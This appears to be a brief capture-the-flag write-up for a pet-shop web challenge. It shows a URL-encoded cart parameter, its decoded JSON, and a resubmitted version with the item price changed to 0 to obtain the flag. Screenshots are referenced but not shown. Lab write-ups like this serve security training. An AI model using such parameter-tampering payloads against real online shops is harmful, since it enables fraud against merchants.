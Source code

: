 # Petshop Pro - FLAG0

## 0x00 Index

![](./imgs/index.jpg)

## 0x01 Shopping Cart

![](./imgs/cart.jpg)

```
cart=%5B%5B1%2C+%7B%22logo%22%3A+%22puppy.jpg%22%2C+%22price%22%3A+7.95%2C+%22name%22%3A+%22Puppy%22%2C+%22desc%22%3A+%228%5C%22x10%5C%22+color+glossy+photograph+of+a+puppy.%22%7D%5D%5D
```

Decoded

```
cart=[[1, {"logo": "puppy.jpg", "price": 7.95, "name": "Puppy", "desc": "8\"x10\" color glossy photograph of a puppy."}]]
```

![](./imgs/burp.jpg)

## 0x02 Change Price to 0

```
cart=%5B%5B1%2C+%7B%22logo%22%3A+%22puppy.jpg%22%2C+%22price%22%3A+0%2C+%22name%22%3A+%22Puppy%22%2C+%22desc%22%3A+%228%5C%22x10%5C%22+color+glossy+photograph+of+a+puppy.%22%7D%5D%5D
```

## 0x03 FLAG

![](./imgs/flag.jpg)